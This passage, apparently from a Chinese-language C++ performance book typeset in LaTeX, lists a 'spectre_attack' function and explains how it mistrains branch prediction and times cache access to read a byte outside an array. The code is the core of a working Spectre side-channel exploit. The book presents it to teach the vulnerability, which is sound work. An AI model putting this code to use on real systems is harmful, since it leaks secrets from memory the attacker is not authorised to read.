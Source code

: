 下面的函数攻击数据数组外的单个字节:

\hspace*{\fill} \\ %
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
char spectre_attack(const char* data,
                    size_t size, size_t evil_index) {
	constexpr const size_t num_val = 256;
	struct timing_element { char s[1024]; };
	static timing_element timing_array[num_val];
	::memset(timing_array, 1, sizeof(timing_array));
	std::array<long, num_val> latencies = {};
	std::array<int, num_val> scores = {};
	size_t i1 = 0, i2 = 0; // Two highest scores
	std::unique_ptr<size_t> data_size(new size_t(size));
	constexpr const size_t n_iter = 1000;
	for (size_t i_iter = 0; i_iter < n_iter; ++i_iter) {
		for (size_t i = 0; i < num_val; ++i) {
			_mm_clflush(timing_array + i); // Un-cache the array
		}
		const size_t ok_index = i_iter % size;
		constexpr const size_t n_read = 100;
		for (size_t i_read = 0; i_read < n_read; ++i_read) {
			_mm_clflush(&*data_size);
			for (volatile int z = 0; z < 1000; ++z) {} // Delay
			const size_t i = (i_read & 0xf) ? ok_index :
			evil_index;
			if (i < *data_size) {
				access_memory(timing_array + data[i]);
			}
		}
		for (size_t i = 0; i < num_val; ++i) {
			const size_t i_rand = (i*167 + 13) & 0xff;
			// Randomized
			const timing_element* const p = timing_array +
			i_rand;
			const long t0 = get_time();
			access_memory(p);
			latencies[i_rand] = get_time() - t0;
		}
		score_latencies(latencies, scores, ok_index);
		std::tie(i1, i2) = best_scores(scores);
		constexpr const int threshold1 = 2, threshold2 = 100;
		if (scores[i1] >
		scores[i2]*threshold1 + threshold2) return i1;
	}
	return i1;
}
\end{lstlisting}

对于计时数组中的每个元素，我们将计算一个分数，即该元素访问速度最快的次数。还跟踪速度第二快的元素，它应该是常规的、访问较慢的数组元素之一。在多次迭代中，会得到我们预期的结果。但在实际中，在某些时候必须放弃。

当最佳和次最佳的分数之间差距够大，就知道已经检测到了计时数组中的快速元素，即由秘密字节的值索引的元素(尽管可以尝试使用迄今为止最好的猜测，如果到了最大迭代次数，而没有得到期望的结果，攻击就失败了)。

有两个工具函数可用来计算延迟的平均分数，并找出两个最佳分数。只要能给出正确的结果，就可以以任何方式实现它们。第一个函数计算平均延迟，并增加延时低于平均值的计时元素的分数(必须通过实验调整，但不是很敏感)。注意，希望一个数组元素的访问速度更快，所以可以在计算平均延迟时跳过(理想情况下，一个元素的延迟要比其他元素低得多，而其他元素的延迟都相同):

